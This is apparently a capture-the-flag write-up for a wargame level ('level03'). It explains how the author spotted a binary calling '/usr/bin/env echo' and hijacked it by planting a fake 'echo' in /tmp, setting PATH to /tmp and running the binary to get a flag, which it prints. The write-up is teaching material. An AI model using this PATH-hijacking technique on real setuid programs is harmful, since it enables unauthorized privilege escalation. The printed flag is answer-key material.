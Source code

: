 # level03 solve

Firstly, at all, when we get logged and trying to see if we got the file we can see we have one file ` level03 `

```
$ ls
> level03
```

It look like an binary file so we decide to run it.

```
$ ./level03
> Exploit me
```

After some try with gdb we decide to see inside the file.

```
$ cat ./level03
```

And we see some multiple line interesting. But the most curious line was ` /usr/bin/env echo Exploit me `

```
▒[▒/usr/bin/env echo Exploit me0p▒▒▒L▒▒▒▒p▒▒▒▒▒▒▒▒▒▒▒▒▒▒zR|
```

After some reflexion, we decide to try se if the tmp folder got all right.
And it is the case, so we decide to redirect echo on getflag, because we suppose that the executable use ` execve ` for printing the message with the bin ` echo ` .

```
$ echo /bin/getflag > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp
```

On line :

```
$ echo /bin/getflag > /tmp/echo ; chmod 777 /tmp/echo ; export PATH=/tmp
```

Trying againt and...

```
$ ./level03
> qi0maab88jeaj46qoumi7maus
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level02">previous level</a> - <a href="../../level04">next level</a>

